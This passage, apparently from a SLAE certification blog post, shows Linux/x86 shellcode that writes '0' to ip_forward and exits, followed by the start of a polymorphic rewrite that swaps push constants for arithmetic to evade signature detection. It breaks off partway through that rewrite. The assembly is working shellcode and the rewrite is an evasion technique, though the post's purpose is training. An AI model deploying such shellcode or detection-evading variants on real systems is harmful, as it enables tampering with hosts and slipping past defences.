 ```nasm
        push word 0x702f

        mov ebx,esp
        xor ecx,ecx
        mov cl,0x1
        mov al,0x5
        int 0x80

        mov ebx,eax
        xor ecx,ecx
        push ecx
        push byte +0x30
        mov ecx,esp
        xor edx,edx
        mov dl,0x1
        mov al,0x4
        int 0x80

        xor eax,eax
        add eax,byte +0x6
        int 0x80

        xor eax,eax
        inc eax
        xor ebx,ebx
        int 0x80
```
My idea is to replace the series of `push` instructions in the original shellcode with equivalent instructions, changing the `push` values at the same time.  Only the first `push` value is hardcoded (with some number subtracted from it). We will derive values for the next `push` instruction by adding/subtracting numbers from previously pushed value. The original instructions are commented out and equivalent instruction are written below it in the polymorphic version. This convention is followed throughtout this post. Polymorphic version of the above shellcode is as follows:
```nasm
; Title 		: SLAE Linux/x86 - Assignment-6.1
; Description	: Polymorphic version of Linux/x86 - Set '/proc/sys/net/ipv4/ip_forward' to '0' & exit() - 83 Bytes
; Original 		: http://shell-storm.org/shellcode/files/shellcode-848.php
; Author		: Rizal Muhammed (UB3RSiCK)
; Student ID	: SLAE 933
; Shellcode Len.: 106 Bytes (~27.8% increase)
;
; nasm -f elf32 shellcode-848-poly.nasm -o shellcode-848-poly.o
; ld shellcode-848-poly.o -o shellcode-848-poly -z execstack

section .text
global _start

_start:

  xor eax,eax
  push eax
        
	;push dword 0x64726177
	push dword 0x63716076
	pop ebx					; 0x64726177 = 0x63716076 + 0x01010101
	add ebx, 0x01010101
	push ebx
        
	;push dword 0x726f665f
	add ebx, 0xdfd04e8		; 0x726f665f = 0x64726177 + 0xdfd04e8
	push ebx

```
